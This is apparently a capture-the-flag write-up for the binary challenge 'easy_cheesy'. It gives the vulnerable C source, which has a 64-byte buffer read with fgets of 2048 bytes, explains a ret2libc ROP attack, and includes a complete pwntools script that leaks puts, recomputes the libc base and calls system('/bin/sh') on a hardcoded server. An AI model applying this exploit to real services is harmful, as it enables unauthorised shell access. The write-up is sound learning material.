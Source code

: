 ```yaml
---
layout: post
title: easy_cheesy
image: "assets/images/ctf/pwnEd2.png"
---
```

We are given an IP and a port to netcat to, and a zip containing everything that was used to set up the challenge (even the docker makefile). When we connect we get an interactive session, the behaviour of which is defined by some C code which we are given:

```C
#include <stdio.h>
#include <signal.h>
#include <stdlib.h>
#include <unistd.h>

void alarm_handler()
{
    printf("Too slow.\n");
    exit(1);
}

void setup()
{
    setvbuf(stdin, NULL, _IONBF, 0);
    setvbuf(stdout, NULL, _IONBF, 0);
    signal(SIGALRM, alarm_handler);
    alarm(60);
}

int main(int argc, char *argv[])
{
    setup();
    char buffer[64];
    printf("ROP me baby!\n");
    fgets(buffer, 2048, stdin);
    return 0;
}
```

We can see that a 64 byte buffer is defined, and the input we pass to the program is read in by `fgets()`. This function only takes a specified number of characters from `STDIN` and drops any extra, so if we were looking to write past a buffer it's not usually great to see this, however my friend is allowing us to write so much (2048 bytes!) that it doesn't particularly matter. 2048 minus 64 in theory gives us 1984 bytes of unmanaged memory we can write into. Plenty.

The principle of what follows is to 'align' whats in the memory of the program that we're able to write into, and a standard C library containing `/bin/sh`. To do this we construct a ROP chain to leak the address of a standard function (any will do, I like most people am a sheep so I just use `puts()`). `fgets()` is only called once, so normally once we'd delivered this initial payload the program would exit and our progress would be lost. To prevent this we make sure our ROP chain also calls `main()` immediately after leaking the address of `puts()`, so the whole program runs a second time and we have another opportunity to deliver yet another payload.

With the address of `puts()` in hand we can add the correct offset to the addresses of a compiled `libc` binary we hold locally. With this correctly aligned we can construct a ROP chain using this binary that makes a call to system and executes `/bin/sh`. Sending this second payload pops a shell, and we're done.

```python
#!/usr/bin/env python3
from pwn import *
context.arch = 'amd64'

def build_initial_rop_chain(elf):
    rop = ROP(elf)
    # Call to 'puts' to get the address of puts
    rop.call('puts', [elf.got['puts']])
    # Call to 'main' to keep the program alive
    rop.call('main')
    return rop.chain()

def build_exploit_rop_chain(leaked_puts_address):
    # Grab libc
    libc_elf = ELF("libc6_2.31-0ubuntu9_amd64.so")
    # Calibrate libc for the program on the remote machine
    libc_elf.address = leaked_puts_address - libc_elf.symbols["puts"]
    rop = ROP(libc_elf)
    # Redundant call of 'puts' for stack alignment
    rop.call("puts", [])
    # Call 'system' and pass our call to get a shell
    rop.call("system", [ next(libc_elf.search(b"/bin/sh\x00")) ])
    return rop.chain()

def deliver_payload(offset, process, rop_chain):
    process.sendline(b'A'*offset + rop_chain)

def run_exploit():
    elf = ELF("./easy_cheesy")
    offset = 72
    # Kick off proceedings
    process = remote("35.246.53.125", "10005")
    process.recvuntil('\n')
    # Leak the address of 'puts' (or whatever function really)
    deliver_payload(offset, process, build_initial_rop_chain(elf))
    puts = u64(process.recvuntil('\n').rstrip().ljust(8, b'\x00'))
    # Assemble and send the ROP chain that will give us our shell
    deliver_payload(offset, process, build_exploit_rop_chain(puts))
    process.interactive()

run_exploit()
```
This explanation is cheating a bit, since I'm relying heavily on the magic of `pwntools` to construct my ROP chains for me. I'd be totally lost without it, since my understanding of ROP chains at a fundamental level is very poor. Something I need to work on.

<a href="https://nankeen.me/about/">Challenge Author</a>

<a href="https://www.youtube.com/watch?v=XZa0Yu6i_ew">Explanation of ROP</a>

<a href="https://pwned.sigint.mx/">Main page of the CTF</a>
